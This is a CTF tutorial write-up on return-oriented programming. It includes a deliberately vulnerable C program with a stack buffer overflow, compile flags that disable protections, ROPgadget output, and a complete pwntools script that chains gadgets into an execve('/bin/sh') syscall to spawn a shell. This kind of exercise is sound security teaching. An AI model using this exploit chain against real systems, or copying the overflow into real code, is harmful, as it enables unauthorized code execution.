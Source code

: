 ```yaml
---
title: Simple PWN - 0x07(ROP)
tags: [CTF, PWN, eductf]

---
```


# Simple PWN - 0x07(ROP)
###### tags: `CTF` `PWN` `eductf`

## Background
* This is very similar to normal `BOF`.
* If a sample code that doesn't have a backdoor function and you cannot input a backdoor function as well, then you can use some code segment to merge a shellcode.
* Therefore, the main idea is use some `<operation>;ret` pattern segment to overlap stack.
![](https://imgur.com/YGarADK.png)

## Original Code
```c!=1
#include <stdio.h>
#include <unistd.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0)
    setvbuf(stdout, 0, _IONBF, 0);

    char s[0x10];

    printf("Here is your \"/bin/sh\": %p\n", "/bin/sh");
    printf("Give me your ROP: ");
    read(0, s, 0x400);
    
    return 0;
}
```
* At line `11`, `%p` means pointer of `/bin/sh` string.
* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection. In addition, please use `-static` command to compile library at compile time, so that we can get `ROP gadget` more easily.
    ```bash!
    gcc -o rop rop.c -zexecstack -no-pie -fno-stack-protector -z norelro -static
    ```

## Exploit
* First, we can observe the program has overflow(very important), but has no other backdoor method can access or global variable can write shellcode. Then we can consider to use `ROP gadget` to construct chain.
* Second, we use `ROPgadget` to find suitable gadget
    ```bash!
    $ ROPgadget --multibr --binary rop > rop_gadget
    $ vim rop_gadget
    ```
    ![](https://imgur.com/IzeTvgK.png)
    ![](https://imgur.com/PlA5C8B.png)
    ![](https://imgur.com/zg28Pti.png)
    ![](https://imgur.com/WDS0HUh.png)
    ![reference link](https://imgur.com/dEh7b5n.png)
    * Note that, you may consider that `pop rdx ; pop rbx ; ret` is not what we want. We just want `pop rdx ; ret`. Therefore, we have to push one more value for `pop rbx ;` instruction.
* Then, we can construct our payload:
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    r = process('./rop')

    r.recvuntil('Here is your "/bin/sh": ')
    binsh = int(r.recvline()[:-1], 16)
    info(f"binsh: {hex(binsh)}")

    pop_rdi_ret = 0x401eaf
    pop_rsi_ret = 0x409ede
    pop_rdx_ret = 0x485aeb
    pop_rax_ret = 0x44fcc7
    syscall = 0x401c64
    ```
    * Note that, `r.recvline()[:-1]` is `b'0x498004'` and we must pop to `%rdi` at line `17` below.
* Then we can combine them together using [flat method](https://docs.pwntools.com/en/stable/util/packing.html#pwnlib.util.packing.flat). It'll flat the address with **length 8 bytes**.
    ```python!=16
    ROP = flat(
        pop_rdi_ret, binsh,
        pop_rsi_ret, 0,
        pop_rdx_ret, 0, 0,
        pop_rax_ret, 0x3b,
        syscall,
    )

    gdb.attach(r)
    r.sendafter("Give me your ROP: ", b'a' * 0x18 + ROP)

    r.interactive()
    ```
* Finally, we got shell!!!
    ![](https://imgur.com/dk0Z2mw.png)

## Analysis
* This is totally the same as our hypothesis.
![](https://imgur.com/OjcDNbu.png)
* We can see that all parameters are ready
    ![](https://imgur.com/xXx7HRQ.png)
## Reference
[NTUSTISC - Pwn Basic 3 [2019.03.26]](https://youtu.be/iA4Hrr17ooI?t=1239)
[Pwn week1](https://youtu.be/ktoVQB99Gj4?t=6712)